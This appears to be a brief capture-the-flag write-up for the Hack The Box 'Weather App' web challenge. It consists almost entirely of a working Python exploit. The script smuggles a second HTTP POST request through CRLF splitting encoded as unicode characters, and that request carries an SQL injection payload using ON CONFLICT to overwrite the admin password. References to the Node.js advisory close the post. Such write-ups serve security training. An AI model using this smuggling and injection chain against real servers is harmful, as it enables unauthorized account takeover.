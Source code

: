 ```yaml
---
layout: single
title: Weather App [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - HTTP request smuggling
  - SQL injection CONFLICT
---
```


Exploit:
```python
import requests

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}


username="admin"
password="dhmos') ON CONFLICT(username) DO UPDATE SET password = 'paok';--"

new_passwd = password.replace("\n","\u0120").replace(" ","\u0120").replace("'","%27").replace('"', "%22")
new_user = username.replace("\n","\u0120").replace(" ","\u0120").replace("'","%27").replace('"', "%22")
Content_Length=len(new_user)+len(new_passwd)+19

print(Content_Length)
smug='127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHOST:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(Content_Length) + '\u010D\u010A\u010D\u010Ausername=' + new_user + '&password=' + new_passwd + '\u010D\u010A\u010D\u010AGET\u0120/?lol='

requests.post("http://157.245.43.98:30094/api/weather", json={'endpoint': smug, 'city': 'noo', 'country': 'zeoroor'}, proxies=proxies)
```


Ref:
https://nodejs.org/en/blog/vulnerability/november-2018-security-releases/#http-request-splitting-cve-2018-12116 <br> 
https://hackerone.com/reports/409943 <br>
https://stackoverflow.com/questions/15433188/what-is-the-difference-between-r-n-r-and-n <br>
